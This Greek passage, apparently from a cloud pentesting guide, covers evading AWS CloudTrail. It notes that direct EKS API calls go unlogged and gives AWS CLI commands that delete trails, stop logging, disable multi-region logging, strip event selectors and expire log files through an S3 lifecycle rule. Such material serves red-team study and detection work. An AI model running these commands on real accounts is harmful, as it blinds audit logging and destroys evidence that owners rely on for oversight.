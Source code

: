 ### Πρόσβαση σε Τρίτη Υποδομή

Ορισμένες υπηρεσίες AWS θα **δημιουργήσουν κάποια υποδομή** όπως **Βάσεις Δεδομένων** ή **Kubernetes** clusters (EKS). Ένας χρήστης που **μιλάει απευθείας σε αυτές τις υπηρεσίες** (όπως το Kubernetes API) **δεν θα χρησιμοποιήσει το AWS API**, έτσι το CloudTrail δεν θα μπορεί να δει αυτή την επικοινωνία.

Επομένως, ένας χρήστης με πρόσβαση στο EKS που έχει ανακαλύψει τη διεύθυνση URL του EKS API θα μπορούσε να δημιουργήσει ένα token τοπικά και **να μιλήσει απευθείας στην υπηρεσία API χωρίς να ανιχνευθεί από το Cloudtrail**.

Περισσότερες πληροφορίες στο:

{{#ref}}
../../aws-post-exploitation/aws-eks-post-exploitation.md
{{#endref}}

### Τροποποίηση Ρυθμίσεων CloudTrail

#### Διαγραφή trails
```bash
aws cloudtrail delete-trail --name [trail-name]
```
#### Σταματήστε τα ίχνη
```bash
aws cloudtrail stop-logging --name [trail-name]
```
#### Απενεργοποίηση καταγραφής πολλαπλών περιοχών
```bash
aws cloudtrail update-trail --name [trail-name] --no-is-multi-region --no-include-global-services
```
#### Απενεργοποίηση Καταγραφής μέσω Επιλογών Εκδηλώσεων
```bash
# Leave only the ReadOnly selector
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[{"ReadWriteType": "ReadOnly"}]' --region <region>

# Remove all selectors (stop Insights)
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[]' --region <region>
```
Στο πρώτο παράδειγμα, παρέχεται ένας επιλεγέας γεγονότος ως πίνακας JSON με ένα μόνο αντικείμενο. Το `"ReadWriteType": "ReadOnly"` υποδεικνύει ότι ο **επιλεγέας γεγονότος θα πρέπει να καταγράφει μόνο γεγονότα μόνο για ανάγνωση** (έτσι οι πληροφορίες του CloudTrail **δεν θα ελέγχουν γεγονότα εγγραφής** για παράδειγμα).

Μπορείτε να προσαρμόσετε τον επιλεγέα γεγονότος με βάση τις συγκεκριμένες απαιτήσεις σας.

#### Διαγραφή καταγραφών μέσω πολιτικής κύκλου ζωής S3
```bash
aws s3api put-bucket-lifecycle --bucket <bucket_name> --lifecycle-configuration '{"Rules": [{"Status": "Enabled", "Prefix": "", "Expiration": {"Days": 7}}]}' --region <region>
```
### Τροποποίηση Ρυθμίσεων Bucket
